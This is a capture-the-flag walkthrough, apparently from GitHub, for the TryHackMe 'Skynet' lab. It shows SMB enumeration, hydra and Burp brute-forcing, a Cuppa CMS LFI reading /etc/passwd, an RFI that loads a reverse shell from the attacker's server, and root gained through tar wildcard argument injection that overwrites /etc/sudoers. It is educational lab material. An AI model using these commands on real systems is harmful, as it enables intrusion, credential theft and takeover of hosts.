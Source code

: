 # what I learn
- RFI
- abuse tar wildscard (tar -cf something *)
# enumeration
- 22/tcp  open  ssh
- 80/tcp  open  http
  - /admin (Status: 403)
  - /ai (Status: 403)
  - /config (Status: 403)
  - /css (Status: 403)
  - /index.html (Status: 200)
  - /js (Status: 403)
  - /server-status (Status: 403)
  - /squirrelmail (Status: 200)
    - SquirrelMail version 1.4.23
    - a login page to 
- 110/tcp open  pop3
- 139/tcp open  netbios-ssn
- 143/tcp open  imap
- 445/tcp open  microsoft-ds
```
|   \\10.10.117.118\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: Skynet Anonymous Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\srv\samba
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.117.118\milesdyson: 
|     Type: STYPE_DISKTREE
|     Comment: Miles Dyson Personal Share
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\milesdyson\share
|     Anonymous access: <none>
|     Current user access: <none>
```
let check smb share
```console
bibo318@parrot:~/THM/skynet$ smbclient \\\\$IP\\anonymous
```
get log1.txt and attention.txt
- log1.txt looks like a wordlist
- attention.txt : A recent system malfunction has caused various passwords to be changed. All skynet employees are required to change their password after seeing this.
-Miles Dyson


# foot hold
let try bruteforce smb share for user `milesdyson` using hydra and `log1.txt` as wordlist:
```console
hydra -f -l milesdyson -P log1.txt -t 64 $IP smb
```
nope no luck... how about `/squirrelmail`. We will use burpsuit to bruteforce it. Capture the request and pass it to Intruder. now add `log1.txt` as the payload and grep match `password incorrect`

it will take a while.. now use milesdyson credential to login to the email server. you will find a mail with subject **Samba Password reset**. here is what contain in the email


```
We have changed your smb password after system malfunction.
Password: <password>
```

now login to Mile smb share. get *important.txt* which tell us about the hidden directory. visit  `http://<ip>/45kra24zxs28v3yd/`. the page dont say much. let `gobuster` and try to find out more


`/45kra24zxs28v3yd/administrator/` is a Cuppa CMS. let search for an exploit.. and I found [this](https://www.exploit-db.com/exploits/25971).


So I try this `/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd` BAM! LFI works. let use LFI to get user.flag

If you read the exploit, we can also use Remote file inclusion (RFI). Remote file inclusion (RFI) is an attack targeting vulnerabilities in web applications that dynamically reference external scripts. In this case we will point/refer to our `php-reverse-shell.php` which is up on our python http server (on kali). 

before executing RFI attack, run netcat and listen for reverse shell. Now visit `alerts/alertConfigField.php?urlConfig=http://<ip>:8000/php-reverse-shell.php`. You should get a reverse shell on netcat directly. now get user flag

# root
Time to root the server. I dont like php shell that much. so I spawn another python shell instead. from python shell I spawn a ptty shell by executing:
```
$ python -c 'import pty; pty.spawn("/bin/sh")'
```
after poking around. I found out that there is a cron job executing `home/milesdyson/backsups.backup.sh` by root user. I planed to just modify the scrip and spawn a reverse shell but we dont have a premission to do so.


Not that in the script, it use `tar *` or what so call wildcars. I have seen some vulnerability which you can abuse wildcards to prive esc (corjob wildcards.). I assume that it should be work with tar too. After some digging I found [DefenseCode_Unix_WildCards_Gone_Wild.txt](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt). pls read section.`===[ 4.3 Tar arbitrary command execution` carefuly so you understand what is going on. More over I found [this](https://medium.com/@int0x33/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e) which prove that its work.


as we know, the `backup.sh` will back up everything in `/var/www/html`. To exploit it we need to move to `/var/www/html`
```console
www-data@skynet:~/html$ echo 'echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > privesc.sh
www-data@skynet:~/html$ echo "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"
<o "/var/www/html"  > "--checkpoint-action=exec=sh privesc.sh"               
www-data@skynet:~/html$ echo "/var/www/html"  > --checkpoint=1
echo "/var/www/html"  > --checkpoint=1
```
the first command we create a `privesc.sh` which will be execute by root (cron job). the script will `echo "www-data ALL=(root) NOPASSWD: ALL" > /etc/sudoers` which will give `www-data` a root privilege and aqurie no password to run sudo.

the 2nd and 3rd command you already know by reading the *DefenseCode_Unix_WildCards_Gone_Wild.txt*. Now wait for cron job (1 min). 
```console
www-data@skynet:~/html$ sudo -l
sudo -l
User www-data may run the following commands on skynet:
    (root) NOPASSWD: ALL
```
BOOM! its works. now get root flag `www-data@skynet:~/html$ sudo cat /root/root.txt`

